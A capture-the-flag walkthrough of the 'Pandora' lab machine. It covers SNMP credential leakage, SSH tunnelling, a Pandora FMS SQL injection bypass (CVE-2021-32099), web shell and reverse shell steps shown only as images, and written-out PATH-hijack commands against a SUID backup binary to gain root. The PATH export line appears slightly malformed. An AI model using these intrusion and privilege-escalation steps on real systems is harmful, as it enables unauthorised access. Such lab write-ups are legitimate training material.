# Pandora

## Gaining Access

Nmap scan results:



### Port 80

The website was some form of corporate website.



However, checking for directories or other web exploits was rather unsuccessful, as I did not find anything of use.

### SNMP

Because we couldn't find anything with the TCP ports, we could enumerate the UDP ports and hopefully find something:

```
$ sudo nmap -sU -top-ports=100 panda.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-28 06:00 EDT
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.089s latency).
Not shown: 99 closed ports
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 95.71 seconds
```

So port 161 for SNMP was open. We can then use `snmpwalk` to enumerate this further.



Redirecting this output to a file, I was able to find some credentials within the contents:



With these credentials, we can SSH in as the `daniel` user.

## Privilege Escalation

### Pandora FMS

As Daniel, we didn't have much permissions over the machine. However, we were able to head to the `/var/www/pandora` directory to find another potential website that was up:



Checking the apache2 config files reveals that the user `matt` was running the other web server:



So, I started an SSH tunnel using the credentials for `daniel`, and we can forward port 80 to our machine.

```bash
ssh -L 4444:127.0.0.1:80 daniel@pandora.htb
```



### Upgrade Session

We can enumerate from the machine that this was a Pandora FMS instance.



Pandora FMS was vulnerable to many types of exploits, one of which was CVE-2021-32099, which would leverage SQL Inejction on the `/include/chart_generator.php` endpoint to bypass authentication and allow attackers to login as the admin.



Then, we would gain access to the Pandora Dashboard.



### RCE as Matt

I did more research and found this repository, which allowed us to make use of the SQL Injection to upload any web shell of our choosing to the server:



Then, we can gain a reverse shell via a Python3 shell.





### Exploiting PATH

I ran another LinPEAS as `matt`, and found that the root user was running some processes.



I also found this one SUID binary called `pandora_backup`.

```bash
$ find / -perm -4000 -ls 2>/dev/null
   264644    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo
   265010     32 -rwsr-xr-x   1 root     root        31032 May 26  2021 /usr/bin/pkexec
   267386     84 -rwsr-xr-x   1 root     root        85064 Jul 14  2021 /usr/bin/chfn
   262764     44 -rwsr-xr-x   1 root     root        44784 Jul 14  2021 /usr/bin/newgrp
   267389     88 -rwsr-xr-x   1 root     root        88464 Jul 14  2021 /usr/bin/gpasswd
   264713     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount
   262929     20 -rwsr-x---   1 root     matt        16816 Dec  3 15:58 /usr/bin/pandora_backup
```

Running `pandora_backup` would call `tar` as per the process we found. The fact that `tar` did not use the absolute path means that we can create our own malicious `tar` script that would give us RCE as root because an SUID binary was in use here.

We can run these commands for a shell:

```bash
cp /bin/bash tar
chmod 777 tar
export PATH=$(pwd).$PATH
pandora_backup
```


